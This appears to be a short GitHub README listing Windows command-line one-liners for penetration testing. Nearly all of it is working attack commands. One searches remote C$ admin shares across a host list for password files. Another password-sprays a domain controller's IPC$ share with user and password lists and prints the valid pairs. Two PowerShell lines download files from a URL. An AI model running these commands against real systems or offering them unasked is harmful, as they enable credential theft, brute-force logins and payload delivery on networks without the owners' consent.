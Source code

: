 # oneliners
One line DOS commands useful during pentests

for /f %a in (hosts.txt) do dir /b /s \\%a\C$\Users\*password*

for /f %a in (hosts.txt) do @if exist \\%a\C$\Users\ echo users found on %a

password spray
@FOR /F %n in (users.txt) DO @FOR /F %p in (pass.txt) DO @net use \\DOMAINCONTROLLER\IPC$ /user:DOMAIN\%n %p 1>NUL 2>&1 && @echo [*] %n:%p && @net use /delete \\DOMAINCONTROLLER\IPC$ > NUL 

invoke-webrequest -uri url -outfile filename
(New-Object System.Net.WebClient).DownloadFile("url","output")





